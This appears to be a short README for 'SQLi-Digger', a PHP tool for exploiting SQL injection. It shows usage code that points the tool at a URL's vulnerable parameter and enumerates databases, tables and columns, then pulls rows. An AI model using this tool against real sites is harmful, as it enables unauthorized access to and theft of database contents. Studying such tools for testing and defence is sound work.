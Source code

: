 SQLi-Digger
===========


Usage:
TARGET_URL=Must finish with vulnerable var(ex: http://google.com/index.php?id=1)

$injection=new SqlDigger(TARGET_URL);
$injection->init();
$injection->getRows();

$injection->currentTable(); // returns current table

$r=$injection->show('databases'); //returns databases
$r=$injection->show('tables',array('db'=>'DATABASE')); //returns tables from DATABASE
$r=$injection->show('columns',array('db'=>'DATABASE','table'=>'TABLE')); //returns colums from DATABASE.TABLE
